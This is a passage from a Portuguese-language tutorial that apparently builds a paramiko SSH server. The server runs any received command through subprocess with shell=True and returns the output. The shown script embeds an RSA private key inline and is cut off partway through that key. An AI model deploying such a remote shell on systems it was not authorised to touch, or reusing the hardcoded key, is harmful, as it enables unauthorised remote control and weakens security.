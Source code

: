 Para que os comandos do shell fossem executados de forma normal, precisei criar um `loop` utilizando a função `Popen()` da biblioteca `subprocess`. Também foi preciso criar uma estrutura `try, except` para transportar o resultado dos comandos, pois em sistemas operacionais no idioma português, o encode `UTF-8` não aceita nossos acentos, portanto o except contem o transporte do resultado em `LATIN-1`.

Neste mesmo loop, inseri um `beautify` na linha `chan.send(os.getcwd() + "> ")`, para o terminal sempre trazer o path atual, além do comando `sair` para encerrar a conexão:

```python
    while True:
        try:
            chan.send(os.getcwd() + "> ")
            cmd = f.readline().strip("\r\n")
            if cmd == "sair":
                chan.close()
                break
            if cmd[:2] == "cd":
                os.chdir(cmd[3:])
            if len(cmd) > 0:
                proc = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
                saida = proc.stdout.read() + proc.stderr.read()
                try:
                    saida_str = str(saida, "utf-8").split("\n")
                    for i in saida_str:
                        chan.send("\r\n" + i)
                except Exception as e:
                    saida_str = str(saida, "latin_1").split("\n")
                    for i in saida_str:
                        chan.send(str("\r\n" + i))
        except Exception:
            continue


    chan.close()
```

O script completo ficou desta forma:

```python
import base64
from binascii import hexlify
import os
import socket
import sys
import threading
import traceback
import subprocess
from io import StringIO
import paramiko
from paramiko.py3compat import b, u, decodebytes

chave = '''-----BEGIN RSA PRIVATE KEY-----
MIICWgIBAAKBgQDTj1bqB4WmayWNPB+8jVSYpZYk80Ujvj680pOTh2bORBjbIAyz
oWGW+GUjzKxTiiPvVmxFgx5wdsFvF03v34lEVVhMpouqPAYQ15N37K/ir5XY+9m/
d8ufMCkjeXsQkKqFbAlQcnWMCRnOoPHS3I4vi6hmnDDeeYTSRvfLbW0fhwIBIwKB
gBIiOqZYaoqbeD9OS9z2K9KR2atlTxGxOJPXiP4ESqP3NVScWNwyZ3NXHpyrJLa0
EbVtzsQhLn6rF+TzXnOlcipFvjsem3iYzCpuChfGQ6SovTcOjHV9z+hnpXvQ/fon
soVRZY65wKnF7IAoUwTmJS9opqgrN6kRgCd3DASAMd1bAkEA96SBVWFt/fJBNJ9H
tYnBKZGw0VeHOYmVYbvMSstssn8un+pQpUm9vlG/bp7Oxd/m+b9KWEh2xPfv6zqU
avNwHwJBANqzGZa/EpzF4J8pGti7oIAPUIDGMtfIcmqNXVMckrmzQ2vTfqtkEZsA
4rE1IERRyiJQx6EJsz21wJmGV9WJQ5kCQQDwkS0uXqVdFzgHO6S++tjmjYcxwr3g
H0CoFYSgbddOT6miqRskOQF3DZVkJT3kyuBgU2zKygz52ukQZMqxCb1fAkASvuTv
qfpH87Qq5kQhNKdbbwbmd2NxlNabazPijWuphGTdW0VfJdWfklyS2Kr+iqrs/5wV
HhathJt636Eg7oIjAkA8ht3MQ+XSl9yIJIS8gVpbPxSw5OMfw0PjVE7tBdQruiSc
```